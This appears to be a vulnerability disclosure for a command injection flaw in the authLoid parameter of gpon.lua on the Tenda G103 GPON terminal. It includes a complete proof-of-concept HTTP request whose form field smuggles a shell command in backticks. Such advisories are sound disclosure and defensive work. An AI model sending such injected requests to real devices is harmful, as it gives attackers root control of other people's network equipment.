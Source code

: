 # Tenda G103 Command Injection Vulnerability in `authLoid` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is caused by improper sanitization of the `authLoid` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authLoid`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, LOID configuration tampering, sensitive data leakage, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function handles the `authLoid` parameter, which is used to configure the LOID (Lightwave Optical Network Identifier) for GPON authentication. A critical security flaw exists: the `authLoid` parameter is passed directly to system commands such as `fw_setenv` and `uci` without sanitization or input validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)




Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authLoid` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated commands are run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive

authLoid=1`touch$IFS/tmp/authLoid.txt`

```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authLoid.txt`.

#### Expected Result:

The file `/tmp/authLoid.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)

